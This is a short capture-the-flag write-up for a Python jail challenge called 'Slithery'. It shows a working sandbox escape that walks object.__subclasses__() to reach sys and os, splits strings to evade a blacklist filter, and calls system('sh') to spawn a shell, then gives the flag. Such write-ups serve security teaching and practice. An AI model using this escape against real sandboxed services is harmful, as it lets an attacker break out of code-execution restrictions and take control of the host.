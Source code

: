 # Slithery

### Tags
 * python
 * jail
 * filter evasion


### Description
We are given the source code for the sandbox. It execs our input, but first filters using a blacklist which is not known to us. So we have to try different inputs to see what is blocked and not.

### Solution
We want to eventually import the **os** module and spawn a shell. So let's traverse through different objects and libraries
We want ot get the index of the **WarningMessage** subclass, since we can access the **sys** module through it.
```
print([t.name for t in object.__subclasses__()].index("WarningMessage"))
```
We got index **184**, so we can access **WarningMessage** with it. Through **WarningMessage** we get **sys**. Through **sys** we got **os**. Then we call system('sh') while bypasing more filters: 
```
object.__subclasses__()[184].__init__.__globals__['s'+'ys'].modules['o'+'s'].__dict__['sy'+'stem']('sh')
```

**Flag:** ``flag{y4_sl1th3r3d_0ut}``
